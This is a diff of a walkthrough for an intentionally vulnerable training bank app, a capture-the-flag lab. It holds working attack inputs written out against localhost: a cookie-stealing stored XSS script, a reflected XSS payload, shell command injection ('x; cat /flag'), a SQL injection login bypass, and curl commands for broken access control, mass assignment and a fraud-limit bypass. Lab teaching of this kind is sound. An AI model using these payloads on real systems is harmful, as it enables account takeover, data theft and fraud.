

Before and after one commit to Brano21/danubius-bank, a Markdown page: WALKTHROUGH.md, the part around one of its changes. Shown at 84% size. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/WALKTHROUGH.md
+++ b/WALKTHROUGH.md
@@ -79,63 +78,75 @@ saved, the email is not verified), or use **W1-01 (SQLi login bypass)** below.
 
-### W1-03 — stored XSS → admin cookie theft (A03)
-- **Where:** `New transfer` → `/transfer`
-- **Steps:** put a payload with **your own token** in the *Note* field:
-  ```html
-  <script>fetch('/w1-03/collect/MYTOKEN?c='+document.cookie)</script>
-  ```
-  Send the transfer → *Report to admin* → open `/w1-03/collect/MYTOKEN` (or the
-  *Collector* page and enter the token).
-- The flag is the admin cookie with `FLAG_W1-03`. The admin "bot" is emulated; each
-  token has its own bucket, so many players at once do not clash.
+### W1-03 — stored XSS → admin cookie theft (A03) · surface: `/transfer` *Note*
+- **Find it:** send a transfer with a note like `<b>hi</b>`, then **Report to admin
+  for review**. Log in as admin (`admin'-- `) and open `/admin/review`: your HTML
+  renders (the note is output unescaped) → stored XSS in the admin view.
+- **Exploit:** put a cookie-stealing payload in the note, pick your own token:
+```html
+<script>fetch('/w1-03/collect/MYTOKEN?c='+document.cookie)</script>
+```
+Report it → the emulated admin "runs" it → read your loot at `/w1-03/collect/MYTOKEN`.
+The stolen admin cookie carries `FLAG_W1-03`. ("Report to admin" is the XSS-bot
+trigger — without it the admin never sees your note.)
 
-### W1-04 — reflected XSS (A05)
-- **Where:** `Search` → `/search` (**after logging in**)
-- **`q`:** `<img src=x onerror="fetch('/search/solved?n='+window.__proof)">`
-  The payload reads the page nonce (`window.__proof`) and sends it — a bare
-  `/search/solved` no longer hands out the flag (403).
-- After the payload runs, `/search` shows `FLAG_W1-04`.
+### W1-04 — reflected XSS (A05) · surface: `/search`
+- **Find it:** search `<b>hi</b>` → it renders bold in "Results for:" → the value is
+  reflected **unescaped**. `/search/solved` also needs a per-page nonce
+  (`window.__proof`), so a bare request won't hand out the flag — the payload must
+  run in the page.
+- **Exploit:**
+```html
+<img src=x onerror="fetch('/search/solved?n='+window.__proof)">
+```
+After it runs, `/search` shows `FLAG_W1-04`.
 
-### W1-05 — OS command injection (A05)
-- **Where:** `Statement export` → `/export`, *File name* field
-- **Payload:** `statement.pdf; cat /flag` (or `; id`)
-- **curl:**
-  ```bash
-  curl -s -b ck.txt -G http://localhost:8080/export --data-urlencode "name=statement.pdf; cat /flag" | grep -o 'RPC{[^}]*}'
-  ```
-- The shell runs in the **isolated** exporter container (no DB/internet, `cap_drop: ALL`), which holds only `FLAG_W1-05`.
+### W1-05 — OS command injection (A05) · surface: `/export` *File name*
+- **Find it:** export `test` → the output shows `ls -la /srv/exports/test` — your
+  input is inside a shell command. Try `test; id` → `uid=0(root)...` appears → OS
+  command injection.
+- **Exploit:** file name `x; cat /flag` → the isolated exporter container's flag.
+```bash
+curl -s -b ck.txt -G http://localhost:8080/export --data-urlencode "name=x; cat /flag" | grep -o 'RPC{[^}]*}'
+```
 
 ---
 
 ## Week 2 — REST API (WEEK ≥ 2)
 
-First get a **token** (same injection as W1-01):
-
+Get a token (same injection as W1-01), then attack the access controls:
 ```bash
-TOK=$(curl -s --data-urlencode "username=' OR '1'='1'-- " --data-urlencode "password=x" \
-  http://localhost:8080/api/v1/login | grep -o '"token":"[^"]*"' | sed 's/"token":"//;s/"//')
-echo "$TOK"
+TOK=$(curl -s -b ck.txt --data-urlencode "username=' OR '1'='1'-- " --data-urlencode "password=x" http://localhost:8080/api/v1/login | grep -o '"token":"[^"]*"' | sed 's/"token":"//;s/"//')
 ```
 
-| Task | Command |
-|------|---------|
-| **W2-01 BOLA** | `curl -s -H "Authorization: Bearer $TOK" http://localhost:8080/api/v1/accounts/3/transactions` |
-| **W2-02 BFLA** | `curl -s -X POST -H "Authorization: Bearer $TOK" http://localhost:8080/api/v1/admin/cards/4/unblock` |
-| **W2-03 mass assignment** | `curl -s -X PATCH -H "Authorization: Bearer $TOK" --data-urlencode "role=admin" http://localhost:8080/api/v1/profile` &nbsp;then&nbsp; `curl -s -H "Authorization: Bearer $TOK" http://localhost:8080/api/v1/admin/portal` |
-| **W2-04 fraud bypass** | `curl -s -X POST -H "Authorization: Bearer $TOK" --data-urlencode "amount=999999" --data-urlencode "currency=USD" --data-urlencode "to_account=3" http://localhost:8080/api/v1/transfers` |
-| **W2-05 error leak** | `curl -s -H "Authorization: Bearer $TOK" "http://localhost:8080/api/v1/statements?account=abc"` |
+### W2-01 — BOLA · `GET /accounts/{id}/transactions`
+- **Find it:** read your own account, then change `{id}` to `2`, `3`, … — you get
+  other people's transactions. No ownership check.
+- **Exploit:** account `3` (VIP) → `FLAG_W2-01`.
 
-Notes:
-- W2-01: account `3` is the foreign VIP account → `FLAG_W2-01` (no ownership check).
-- W2-04: `currency=EUR` over the limit returns `403`; the bypass is a **different currency**.
-- W2-05: a non-numeric `account` throws → the response contains a "connection string" with `FLAG_W2-05`.
+### W2-02 — BFLA · `POST /admin/cards/{id}/unblock`
+- **Find it:** an `/admin/` function that returns `200` for a plain (non-admin)
+  token instead of `403`.
+- **Exploit:** `POST /api/v1/admin/cards/4/unblock` → flag.
 
-(All API calls also need the gate cookie — see the smoke test below.)
+### W2-03 — mass assignment · `PATCH /profile`
+- **Find it:** `GET /api/v1/me` shows `role: client`. PATCH your profile with an
+  extra `role=admin` field; then `GET /api/v1/admin/portal` — it now works.
+- **Exploit:** `PATCH /profile role=admin` → `GET /admin/portal` → flag.
+
+### W2-04 — fraud-limit bypass · `POST /transfers`
+- **Find it:** a transfer over 5000 EUR returns `403 fraud limit`. Change `currency`
+  to `USD` → it goes through. The limit is only checked for EUR.
+- **Exploit:** `amount=999999`, `currency=USD` → flag.
+
+### W2-05 — error leak · `GET /statements?account=`
+- **Find it:** pass a non-numeric `account` (`abc`) → `500` with a full stack trace
+  and a config blob.
+- **Exploit:** the leaked "connection string" contains `FLAG_W2-05`.
+
+(All API calls also need the gate cookie: add `-b ck.txt`.)
 
 ---
 
 ## Week 3 — Danubka LLM assistant (WEEK ≥ 3)
 
-`Assistant` in the menu → `/assistant`. The model is small (3B) and
-**nondeterministic** — the payloads are examples; sometimes you need to rephrase
-or retry.
+`/assistant`. Small (3B) and nondeterministic — rephrase / retry if needed.
 
````
Also changed, not shown: other parts of WALKTHROUGH.md (+67 -94 lines).
